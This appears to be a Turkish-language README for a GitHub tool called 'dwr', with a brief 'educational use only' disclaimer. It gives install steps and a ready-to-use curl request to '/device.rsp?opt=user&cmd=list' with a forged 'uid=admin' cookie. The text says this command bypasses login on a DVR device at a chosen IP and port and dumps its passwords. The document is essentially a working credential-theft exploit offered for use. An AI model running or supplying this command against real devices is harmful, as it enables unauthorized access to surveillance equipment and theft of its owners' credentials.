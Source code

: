 
### TANIM:
# Öncelikle merhabalar
# Kullanım sorumlulugu tarafınıza aittir.
# herhangi bir yasal sorumluluk kabul edilmemektedir.
# eğitim amaclıdır.


## Çalıştırmak İçin

	usr@pwn:~$ git clone https://github.com/unpacker1/dwr.git
	indiriniz.
	usr@pwn:~$ cd dwr
	komutu calıstırınız
	usr@pwn:~$ pip install -r requirements.txt
	pip yapınız.

daha sonra aşagıdaki 
	usr@pwn:~$  [     curl "http://IP:PORT/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"          ]
curl kısmından itibaren IP VE PORT kısmına bilgilerinizi girin ve direk login olup dwr in şifresini onunuze dökecektir.
